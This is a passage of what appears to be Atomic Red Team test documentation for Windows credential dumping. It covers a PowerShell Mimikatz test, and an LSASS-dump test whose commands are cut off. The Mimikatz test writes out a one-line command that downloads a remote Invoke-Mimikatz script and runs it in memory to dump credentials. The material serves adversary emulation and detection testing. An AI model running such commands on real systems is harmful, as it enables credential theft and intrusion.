 


<br/>
<br/>

## Atomic Test #10 - Powershell Mimikatz
Dumps credentials from memory via Powershell by invoking a remote mimikatz script.
If Mimikatz runs successfully you will see several usernames and hashes output to the screen.
Common failures include seeing an \"access denied\" error which results when Anti-Virus blocks execution. 
Or, if you try to run the test without the required administrative privileges you will see this error near the bottom of the output to the screen "ERROR kuhl_m_sekurlsa_acquireLSA"

**Supported Platforms:** Windows


**auto_generated_guid:** 66fb0bc1-3c3f-47e9-a298-550ecfefacbc





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_script | URL to a remote Mimikatz script that dumps credentials | url | https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/Invoke-Mimikatz.ps1|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
IEX (New-Object Net.WebClient).DownloadString('#{remote_script}'); Invoke-Mimikatz -DumpCreds
```






<br/>
<br/>

## Atomic Test #11 - Dump LSASS with createdump.exe from .Net v5
Use createdump executable from .NET to create an LSASS dump.

[Reference](https://twitter.com/bopin2020/status/1366400799199272960?s=20)

**Supported Platforms:** Windows


**auto_generated_guid:** 9d0072c8-7cca-45c4-bd14-f852cfa35cf0






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 
